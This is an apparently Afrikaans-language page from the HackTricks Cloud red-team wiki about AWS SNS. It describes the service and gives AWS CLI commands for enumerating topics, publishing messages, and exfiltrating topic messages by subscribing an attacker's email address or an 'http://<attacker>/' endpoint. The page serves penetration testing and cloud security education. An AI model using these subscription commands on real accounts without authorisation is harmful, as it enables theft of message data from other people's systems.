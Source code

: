 # AWS - SNS Enum

{% hint style="success" %}
Leer en oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer en oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repo's.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) word beskryf as 'n **ten volle bestuurde boodskapdiens**. Dit ondersteun beide **toepassing-tot-toepassing** (A2A) en **toepassing-tot-persoon** (A2P) kommunikasietipes.

Sleutelfunksies vir A2A-kommunikasie sluit in **publiseer/inteken (pub/sub) meganismes**. Hierdie meganismes stel **onderwerpe** bekend, wat noodsaaklik is vir die moontlikheid van hoë-deurset, **druk-gebaseerde, baie-tot-baie boodskappe**. Hierdie funksie is baie voordelig in scenario's wat verspreide stelsels, mikrodienslewering en gebeurtenis-gedrewe bedienerlose argitekture behels. Deur hierdie onderwerpe te benut, kan uitgewerstelsels boodskappe doeltreffend versprei na 'n **wye reeks intekenaarstelsels**, wat 'n waaierboodskappatroon fasiliteer.

### **Verskil met SQS**

**SQS** is 'n **ry-gebaseerde** diens wat punt-tot-punt kommunikasie moontlik maak, wat verseker dat boodskappe deur 'n **enkele verbruiker** verwerk word. Dit bied **ten minste een keer aflewering**, ondersteun standaard en FIFO-rye, en laat boodskapbewaring toe vir herprobeer en vertraagde verwerking.\
Aan die ander kant is **SNS** 'n **publiseer/inteken-gebaseerde diens**, wat **een-tot-baie** kommunikasie moontlik maak deur boodskappe gelyktydig aan **veelvuldige intekenare** uit te saai. Dit ondersteun **verskeie intekenpunte soos e-pos, SMS, Lambda-funksies, en HTTP/HTTPS**, en bied filtermeganismes vir geteikende boodskapaflewering.\
Terwyl beide dienste ontkoppeling tussen komponente in verspreide stelsels moontlik maak, fokus SQS op ry-gebaseerde kommunikasie, en SNS beklemtoon gebeurtenis-gedrewe, waaier kommunikasiepatrone.

### **Enumerasie**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Let daarop dat as die **onderwerp van tipe FIFO is**, slegs intekenare wat die protokol **SQS** gebruik, gebruik kan word (HTTP of HTTPS kan nie gebruik word nie).

Ook, selfs al bevat die `--topic-arn` die streek, maak seker jy spesifiseer die korrekte streek in **`--region`** anders sal jy 'n fout kry wat lyk asof jy nie toegang het nie, maar die probleem is die streek.
{% endhint %}

#### Onauthentiseerde Toegang

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Voorregverhoging

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Na-eksploitasie

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Volharding

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Verwysings

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repo's.

</details>
{% endhint %}
